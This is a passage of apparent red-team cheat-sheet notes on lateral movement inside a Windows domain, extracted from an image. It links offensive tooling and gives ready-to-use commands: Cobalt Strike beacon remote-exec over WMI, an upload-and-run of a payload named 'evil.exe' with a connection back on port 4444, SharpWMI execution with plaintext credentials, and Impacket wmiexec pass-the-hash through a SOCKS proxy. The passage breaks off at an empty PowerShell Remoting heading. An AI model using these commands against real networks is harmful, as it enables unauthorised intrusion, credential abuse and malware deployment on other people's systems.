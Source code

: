 ### Resources
- https://github.com/GhostPack/Rubeus
- https://blog.cobaltstrike.com/2014/03/20/user-account-control-what-penetration-testers-should-know/

## Lateral Movement

Common options:
- Windows Management Instrumentation (WMI)
- PowerShell Remoting
- PsExec

### Windows Management Instrumentation (WMI)

Manual

```
beacon> shell wmic /node:"w-west-239" /user:"vault.io\n.perroti" /password:"Passw0rd" process call create "powershell -enc [...snip...]"
```

CS

```
# powershell 1 liner
beacon> remote-exec wmi w-west-239 powershell -enc [...]

# upload
beacon> cd \\w-west-239\c$\windows\temp
beacon> upload /tmp/evil.exe
beacon> cd c:\
beacon> remote-exec wmi w-west-239 c:\windows\temp\evil.exe
beacon> connect w-west-239 4444
```

SharpWMI

```
# skip username/password to run in current context
beacon> execute-assembly /opt/tools/SharpWMI.exe action=exec computername=w-west-239 command="c:\windows\temp\evil.exe" username="vault\n.perroti" password="Passw0rd"
```

Impacket

```
# setup socks in CS
$ proxychains wmiexec.py -hashes 125j41487b0c24188af4e4fed5zcreba:125j41487b0c24188af4e4fed5zcreba b.boss@10.0.0.1
[...]
```

### PowerShell Remoting

CS
